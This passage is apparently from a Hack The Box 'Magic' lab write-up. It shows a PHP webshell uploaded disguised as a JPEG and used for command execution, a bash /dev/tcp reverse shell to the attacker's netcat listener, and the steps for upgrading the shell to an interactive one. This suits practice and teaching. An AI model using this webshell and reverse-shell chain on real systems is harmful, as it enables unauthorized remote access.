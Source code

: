 `disable_functions` doesn't blacklist `system()`, upload a webshell

Payload : `<?php system($_REQUEST[0]); ?>`

![](/assets/obsidian/deb55716d0c4b2f6483fbbc152cfbddf.png)

```bash
┌──(bravosec㉿fsociety)-[~/htb/Magic]
└─$ curl http://magic/images/uploads/white.php.jpg --data-urlencode '0=id' --output -
JFIFHHC





 $.' ",#(7),01444'9=82<.342
                          d??uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Reverse shell

```bash
curl http://magic/images/uploads/white.php.jpg --data-urlencode '0=/bin/bash -c "bash -i >& /dev/tcp/10.10.14.9/1111 0>&1"'
```

```bash
┌──(bravosec㉿fsociety)-[~/htb/Magic/www]
└─$ nc -lvnp 1111
listening on [any] 1111 ...
connect to [10.10.14.9] from (UNKNOWN) [10.129.207.97] 39634
bash: cannot set terminal process group (1185): Inappropriate ioctl for device
bash: no job control in this shell
www-data@magic:/var/www/Magic/images/uploads$ python3 -c 'import pty; pty.spawn("/bin/bash")'
<ds$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@magic:/var/www/Magic/images/uploads$ ^Z
zsh: suspended  nc -lvnp 1111

┌──(bravosec㉿fsociety)-[~/htb/Magic/www]
└─$ stty raw -echo;fg
[1]  + continued  nc -lvnp 1111
                               export TERM=xterm
www-data@magic:/var/www/Magic/images/uploads$ stty rows 50 columns 209
www-data@magic:/var/www/Magic/images/uploads$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@magic:/var/www/Magic/images/uploads$
```
